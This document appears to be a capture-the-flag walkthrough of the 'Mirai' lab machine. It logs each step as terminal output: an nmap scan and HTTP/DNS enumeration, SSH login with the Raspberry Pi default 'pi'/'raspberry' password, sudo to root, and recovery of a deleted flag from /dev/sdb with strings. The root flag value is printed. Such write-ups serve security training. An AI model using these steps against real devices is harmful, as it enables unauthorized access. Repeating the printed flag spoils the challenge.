






#### Mirai

- [Attacker Info]()
- [Nmap Scan]()
- [HTTP Enumeration]()
- [Default SSh Creds ``raspberry ``]()

###### Attacker Info

```sh
root@kali:~/mirai# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.0.63  netmask 255.255.255.0  broadcast 10.0.0.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        inet6 2601:644:8500:d9da::757d  prefixlen 128  scopeid 0x0<global>
        inet6 2601:644:8500:d9da:20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x0<global>
        inet6 2601:644:8500:d9da:8959:a7b1:9f20:9515  prefixlen 64  scopeid 0x0<global>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 1172  bytes 847990 (828.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 671  bytes 70279 (68.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 87  bytes 29643 (28.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 87  bytes 29643 (28.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.11  netmask 255.255.254.0  destination 10.10.14.11
        inet6 dead:beef:2::1009  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::464b:5a6b:801b:7738  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 7  bytes 336 (336.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/mirai#
```

###### Nmap Scan

```sh
root@kali:~/mirai# nmap -sV -sC -oA mirai.nmap 10.10.10.48

Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-13 22:54 EST
Nmap scan report for 10.10.10.48
Host is up (0.21s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (EdDSA)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid:
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.35 seconds
root@kali:~/mirai#
```

###### HTTP Enumeration


```sh
root@kali:~/mirai# curl -vvv http://10.10.10.48
* Rebuilt URL to: http://10.10.10.48/
*   Trying 10.10.10.48...
* TCP_NODELAY set
* Connected to 10.10.10.48 (10.10.10.48) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.48
> User-Agent: curl/7.57.0
> Accept: */*
>
< HTTP/1.1 404 Not Found
< X-Pi-hole: A black hole for Internet advertisements.
< Content-type: text/html; charset=UTF-8
< Content-Length: 0
< Date: Thu, 15 Feb 2018 18:56:08 GMT
< Server: lighttpd/1.4.35
<
* Connection #0 to host 10.10.10.48 left intact
root@kali:~/mirai#
```







```sh
root@kali:~/mirai# dig @10.10.10.48 pi.hole

; <<>> DiG 9.11.2-P1-1-Debian <<>> @10.10.10.48 pi.hole
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 39333
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;pi.hole.			IN	A

;; ANSWER SECTION:
pi.hole.		300	IN	A	192.168.204.129

;; Query time: 356 msec
;; SERVER: 10.10.10.48#53(10.10.10.48)
;; WHEN: Thu Feb 15 14:02:33 EST 2018
;; MSG SIZE  rcvd: 52

root@kali:~/mirai#
```



```sh
root@kali:~/mirai# vim /etc/hosts
root@kali:~/mirai# cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kali

10.10.10.48     pi.hole

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
root@kali:~/mirai#
```

```sh
root@kali:~/mirai# ping pi.hole
PING pi.hole (10.10.10.48) 56(84) bytes of data.
64 bytes from pi.hole (10.10.10.48): icmp_seq=1 ttl=63 time=271 ms
64 bytes from pi.hole (10.10.10.48): icmp_seq=2 ttl=63 time=291 ms
64 bytes from pi.hole (10.10.10.48): icmp_seq=3 ttl=63 time=312 ms
^C
--- pi.hole ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms
rtt min/avg/max/mdev = 271.137/291.659/312.477/16.878 ms
root@kali:~/mirai#
```


###### [Default SSh Creds ``raspberry ``](https://www.raspberrypi.org/documentation/linux/usage/users.md)

```sh
root@kali:~/mirai# ssh pi@10.10.10.48
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.48' (ECDSA) to the list of known hosts.
pi@10.10.10.48's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ ls -l
total 1440
drwxr-xr-x 3 pi pi    4096 Aug 13  2017 Desktop
drwxr-xr-x 5 pi pi      99 Dec 13  2016 Documents
drwxr-xr-x 2 pi pi    4096 Aug 13  2017 Downloads
drwxr-xr-x 2 pi pi    4096 Aug 13  2017 Music
drwxr-xr-x 2 pi pi    4096 Aug 13  2017 Pictures
drwxr-xr-x 2 pi pi    4096 Aug 13  2017 Public
drwxr-xr-x 2 pi pi    4096 Aug 13  2017 Templates
drwxr-xr-x 2 pi pi    4096 Aug 13  2017 Videos
-rw-r--r-- 1 pi pi 1441764 Aug 13  2017 background.jpg
drwxr-xr-x 3 pi pi    4096 Aug 13  2017 oldconffiles
drwxr-xr-x 2 pi pi    1629 Dec 13  2016 python_games
pi@raspberrypi:~ $ cd Desktop/
pi@raspberrypi:~/Desktop $ ls
Plex  user.txt
pi@raspberrypi:~/Desktop $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~/Desktop $
pi@raspberrypi:~/Desktop $ sudo su -

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

root@raspberrypi:~# ls
root.txt
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
root@raspberrypi:~#
```

```sh
root@raspberrypi:~# df -lh
Filesystem      Size  Used Avail Use% Mounted on
aufs            8.5G  2.8G  5.3G  34% /
tmpfs           101M  4.8M   96M   5% /run
/dev/sda1       1.3G  1.3G     0 100% /lib/live/mount/persistence/sda1
/dev/loop0      1.3G  1.3G     0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs           251M     0  251M   0% /lib/live/mount/overlay
/dev/sda2       8.5G  2.8G  5.3G  34% /lib/live/mount/persistence/sda2
devtmpfs         10M     0   10M   0% /dev
tmpfs           251M  8.0K  251M   1% /dev/shm
tmpfs           5.0M  4.0K  5.0M   1% /run/lock
tmpfs           251M     0  251M   0% /sys/fs/cgroup
tmpfs           251M  8.0K  251M   1% /tmp
/dev/sdb        8.7M   93K  7.9M   2% /media/usbstick
tmpfs            51M     0   51M   0% /run/user/999
tmpfs            51M     0   51M   0% /run/user/1000
root@raspberrypi:~#
root@raspberrypi:~# mount
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /run type tmpfs (rw,nosuid,relatime,size=102408k,mode=755)
/dev/sda1 on /lib/live/mount/persistence/sda1 type iso9660 (ro,noatime)
/dev/loop0 on /lib/live/mount/rootfs/filesystem.squashfs type squashfs (ro,noatime)
tmpfs on /lib/live/mount/overlay type tmpfs (rw,relatime)
/dev/sda2 on /lib/live/mount/persistence/sda2 type ext4 (rw,noatime,data=ordered)
aufs on / type aufs (rw,noatime,si=f772decf,noxino)
devtmpfs on /dev type devtmpfs (rw,nosuid,size=10240k,nr_inodes=58963,mode=755)
securityfs on /sys/kernel/security type securityfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000)
tmpfs on /run/lock type tmpfs (rw,nosuid,nodev,noexec,relatime,size=5120k)
tmpfs on /sys/fs/cgroup type tmpfs (ro,nosuid,nodev,noexec,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd)
pstore on /sys/fs/pstore type pstore (rw,nosuid,nodev,noexec,relatime)
cgroup on /sys/fs/cgroup/cpuset type cgroup (rw,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (rw,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event)
systemd-1 on /proc/sys/fs/binfmt_misc type autofs (rw,relatime,fd=22,pgrp=1,timeout=300,minproto=5,maxproto=5,direct)
debugfs on /sys/kernel/debug type debugfs (rw,relatime)
mqueue on /dev/mqueue type mqueue (rw,relatime)
hugetlbfs on /dev/hugepages type hugetlbfs (rw,relatime)
tmpfs on /tmp type tmpfs (rw,nosuid,nodev,relatime)
/dev/sdb on /media/usbstick type ext4 (ro,nosuid,nodev,noexec,relatime,data=ordered)
tmpfs on /run/user/999 type tmpfs (rw,nosuid,nodev,relatime,size=51204k,mode=700,uid=999,gid=997)
tmpfs on /run/user/1000 type tmpfs (rw,nosuid,nodev,relatime,size=51204k,mode=700,uid=1000,gid=1000)
root@raspberrypi:~#
root@raspberrypi:~# cd /media/
root@raspberrypi:/media# ls
usbstick
root@raspberrypi:/media# cd usbstick/
root@raspberrypi:/media/usbstick# ls
damnit.txt  lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
root@raspberrypi:/media/usbstick#
root@raspberrypi:/media/usbstick# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
root@raspberrypi:/media/usbstick#
```

```sh
root@raspberrypi:/media/usbstick# xxd /dev/sdb | grep -v '0000 0000 0000 0000 0000 0000 0000 0000'
0000400: 000a 0000 0028 0000 0002 0000 5a22 0000  .....(......Z"..
0000410: f409 0000 0100 0000 0000 0000 0000 0000  ................
0000420: 0020 0000 0020 0000 0005 0000 61d0 855a  . ... ......a..Z
0000430: 61d0 855a 1000 ffff 53ef 0100 0100 0000  a..Z....S.......
0000440: fc31 9159 0000 0000 0000 0000 0100 0000  .1.Y............
0000450: 0000 0000 0b00 0000 8000 0000 3c00 0000  ............<...
0000460: 4202 0000 7900 0000 635b cd7f 1d95 4229  B...y...c[....B)
0000470: bf13 3e72 2026 db3c 0000 0000 0000 0000  ..>r &.<........
0000480: 0000 0000 0000 0000 2f6d 6564 6961 2f75  ......../media/u
0000490: 7362 7374 6963 6b00 0000 0000 0000 0000  sbstick.........
00004c0: 0000 0000 0000 0000 0000 0000 0000 2700  ..............'.
00004e0: 0800 0000 0000 0000 0000 0000 d379 5a07  .............yZ.
00004f0: d22e 4775 878b 846d 5ea6 d93e 0101 0000  ..Gu...m^..>....
0000500: 0c00 0000 0000 0000 fc31 9159 0af3 0100  .........1.Y....
0000510: 0400 0000 0000 0000 0000 0000 0004 0000  ................
0000520: 7c01 0000 0000 0000 0000 0000 0000 0000  |...............
0000540: 0000 0000 0000 0000 0000 0000 0000 1000  ................
0000560: 0100 0000 0000 0000 0000 0000 0000 0000  ................
0000570: 0000 0000 0400 0000 1606 0000 0000 0000  ................
0000800: 2a00 0000 2c00 0000 2e00 0000 851a f404  *...,...........
0000810: 0200 0400 0000 0000 0000 0000 f304 b77d  ...............}
0000820: 2b00 0000 2d00 0000 ce00 0000 d507 0005  +...-...........
0000830: 0000 0500 0000 0000 0000 0000 0005 d588  ................
0000c00: 0320 0000 0000 0000 0000 0000 0000 0000  . ..............
0001000: 0420 0000 0000 0000 0000 0000 0000 0000  . ..............
0001400: 0520 0000 0000 0000 0000 0000 0000 0000  . ..............
0001800: 0620 0000 0000 0000 0000 0000 0000 0000  . ..............
0001c00: 0720 0000 0000 0000 0000 0000 0000 0000  . ..............
0002000: 0820 0000 0000 0000 0000 0000 0000 0000  . ..............
0002400: 0920 0000 0000 0000 0000 0000 0000 0000  . ..............
0002800: 0a20 0000 0000 0000 0000 0000 0000 0000  . ..............
0002c00: 0b20 0000 0000 0000 0000 0000 0000 0000  . ..............
0003000: 0c20 0000 0000 0000 0000 0000 0000 0000  . ..............
0003400: 0d20 0000 0000 0000 0000 0000 0000 0000  . ..............
0003800: 0e20 0000 0000 0000 0000 0000 0000 0000  . ..............
0003c00: 0f20 0000 0000 0000 0000 0000 0000 0000  . ..............
0004000: 1020 0000 0000 0000 0000 0000 0000 0000  . ..............
0004400: 1120 0000 0000 0000 0000 0000 0000 0000  . ..............
0004800: 1220 0000 0000 0000 0000 0000 0000 0000  . ..............
0004c00: 1320 0000 0000 0000 0000 0000 0000 0000  . ..............
0005000: 1420 0000 0000 0000 0000 0000 0000 0000  . ..............
0005400: 1520 0000 0000 0000 0000 0000 0000 0000  . ..............
0005800: 1620 0000 0000 0000 0000 0000 0000 0000  . ..............
0005c00: 1720 0000 0000 0000 0000 0000 0000 0000  . ..............
0006000: 1820 0000 0000 0000 0000 0000 0000 0000  . ..............
0006400: 1920 0000 0000 0000 0000 0000 0000 0000  . ..............
0006800: 1a20 0000 0000 0000 0000 0000 0000 0000  . ..............
0006c00: 1b20 0000 0000 0000 0000 0000 0000 0000  . ..............
0007000: 1c20 0000 0000 0000 0000 0000 0000 0000  . ..............
0007400: 1d20 0000 0000 0000 0000 0000 0000 0000  . ..............
0007800: 1e20 0000 0000 0000 0000 0000 0000 0000  . ..............
0007c00: 1f20 0000 0000 0000 0000 0000 0000 0000  . ..............
0008000: 2020 0000 0000 0000 0000 0000 0000 0000    ..............
0008400: 2120 0000 0000 0000 0000 0000 0000 0000  ! ..............
0008800: 2220 0000 0000 0000 0000 0000 0000 0000  " ..............
0008c00: 2320 0000 0000 0000 0000 0000 0000 0000  # ..............
0009000: 2420 0000 0000 0000 0000 0000 0000 0000  $ ..............
0009400: 2520 0000 0000 0000 0000 0000 0000 0000  % ..............
0009800: 2620 0000 0000 0000 0000 0000 0000 0000  & ..............
0009c00: 2720 0000 0000 0000 0000 0000 0000 0000  ' ..............
000a000: 2820 0000 0000 0000 0000 0000 0000 0000  ( ..............
000a400: 2920 0000 0000 0000 0000 0000 0000 0000  ) ..............
000a800: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000a810: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000a820: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000a830: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000a840: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000a850: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000a860: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000a870: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000a880: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000a890: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000a8a0: ffff ffff ffff ffff ffff ffff ffff ff07  ................
000ac00: ffff ffff ff05 0000 0000 0000 0000 0000  ................
000acf0: 0000 0000 0000 0000 0000 0000 0000 0080  ................
000ad00: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ad10: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ad20: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ad30: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ad40: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ad50: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ad60: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ad70: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ad80: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ad90: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ada0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000adb0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000adc0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000add0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ade0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000adf0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ae00: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ae10: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ae20: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ae30: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ae40: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ae50: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ae60: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ae70: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000ae80: ffff ffff ffff ffff ffff ffff ffff ffff  ................
